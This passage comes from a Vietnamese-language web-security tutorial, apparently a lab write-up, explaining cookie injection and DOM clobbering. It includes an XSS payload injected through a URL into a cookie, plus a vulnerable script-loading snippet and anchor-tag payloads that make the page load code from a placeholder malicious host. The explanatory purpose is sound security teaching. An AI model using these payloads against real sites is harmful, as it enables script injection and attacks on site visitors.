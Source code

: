 Ta có thể nhìn thấy ở đây, sau khi mình nối thêm `&` vào URL thì hoàn toàn có thể inject được vào cookie, vậy sẽ như nào nếu ta inject một payload `XSS` vào? Mình sẽ inject `&'><script>print()</script>` vào và hoàn toàn có thể khai thác thành công
![image](https://hackmd.io/_uploads/r1yD9nIIex.png)

### 5. DOM CLobbering
Đây lại là một lỗ hỏng mới ta cần tìm hiểu, đây là lỗ hỏng mà cắc attacker có thể chèn mã `HTML` vào trang để có thể sửa đổi cấu trúc của một `DOM` từ đó ảnh hưởng đến js và có thể thay đổi hoặc làm hỏng đoạn code đó
Cơ bản `clobbering` có nghĩa là ta đang `đè lên` hoặc `ghi đè` một biến toàn cục (global variable) hoặc một thuộc tính của đối tượng `JavaScript` bằng cách thay thế nó bằng một nút `DOM (DOM node)` hoặc một tập hợp các phần tử `HTML (HTML collection)`.

Ví dụ ta có một đoạn vulnerable code như sau
```javascript 
<script>
    window.onload = function(){
        let someObject = window.someObject || {}; // (1)
        let script = document.createElement('script');
        script.src = someObject.url; // (2)
        document.body.appendChild(script); // (3)
    };
</script>
```

* someObject được khởi tạo.
* Một thẻ `<script>` mới được tạo, và thuộc tính `src` của nó được gán bằng giá trị của someObject.url.
* Thẻ `<script>` này sau đó được thêm vào `document.body`, khiến trình duyệt tải và thực thi tập lệnh từ `someObject.url`.

Attacker có thể khai thác code này như sau, chúng sẽ inject vào web một code như sau 
```html 
<a id=someObject>
<a id=someObject name=url href=//malicious-website.com/evil.js>
```
* `<a id=someObject>`: Khi trình duyệt xử lý thẻ `a` đầu tiên này, nó sẽ tự động tạo một biến toàn cục tên là `someObject` trỏ đến phần tử `a` này.
* `<a id=someObject name=url href=//malicious-website.com/evil.js>`: Thẻ `a` thứ hai cũng có `id=someObject`. Khi có nhiều phần tử có cùng id, `DOM` sẽ nhóm chúng lại thành một `HTML collection` 
* Do đó, biến toàn cục `someObject` (được tạo ở bước trước) giờ đây bị `clobbered` và trỏ đến `HTML collection` chứa cả hai thẻ `a` này.
* Thẻ `a` thứ hai này cũng có thuộc tính `name=url` và `href=//malicious-website.com/evil.js`.
    
Khi đoạn JavaScript ở trên thực thi:
* Tại dòng (1): `let someObject = window.someObject || {};`: Vì `window.someObject` đã bị ghi đè bởi `HTML collection` chứa hai thẻ `a`, biến someObject trong JavaScript giờ đây sẽ tham chiếu đến `HTML collection` đó.
* Tại dòng (2): `script.src = someObject.url;`: Khi JavaScript cố gắng truy cập `someObject.url`, nó không còn truy cập vào một đối tượng `JavaScript` thông thường nữa mà là một `HTML collection`. Trong `HTML collection` này, thẻ `a` thứ hai có `name="url"`. Khi truy cập `someObject.url`, trình duyệt sẽ tìm thuộc tính `url` trong `collection`, và nó sẽ trả về giá trị của thuộc tính href của thẻ `a` có `name="url"`, tức là `//malicious-website.com/evil.js`.
* Tại dòng (3): `document.body.appendChild(script);`: Trình duyệt sẽ tạo một thẻ `script` với `src` là `//malicious-website.com/evil.js` và thêm nó vào trang. Điều này khiến trình duyệt tải và thực thi tập lệnh độc hại từ `malicious-website.com`, dẫn đến tấn công `XSS` hoặc các hành vi độc hại khác. 
    